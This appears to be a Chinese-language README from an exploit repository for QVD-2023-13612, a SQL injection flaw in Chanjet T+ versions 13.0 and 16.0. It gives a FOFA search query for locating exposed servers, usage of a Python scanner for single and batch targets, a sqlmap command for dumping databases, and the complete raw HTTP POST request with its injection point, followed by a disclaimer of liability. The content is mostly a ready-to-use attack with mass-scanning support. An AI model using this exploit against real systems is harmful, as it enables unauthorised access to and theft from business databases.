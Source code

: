 # QVD-2023-13612

畅捷通T+ SQL注入漏洞

## fofa

app="畅捷通-TPlus"

## 影响范围

畅捷通T+ 13.0

畅捷通T+ 16.0
   
## 工具利用

python3 QVD-2023-13612.py -u http://127.0.0.1:1111 单个url测试

python3 QVD-2023-13612.py -f url.txt 批量检测 

![poc](./poc.jpg)

扫描会自动保存存在漏洞的url到vuln.txt

## exp

python sqlmap.py -r sql.txt --dbs

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: {rhost ip}
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.506.23 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

{"accNum": "1", "functionTag": "functionTag*", "url": "1"}
```
![poc](./sql.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
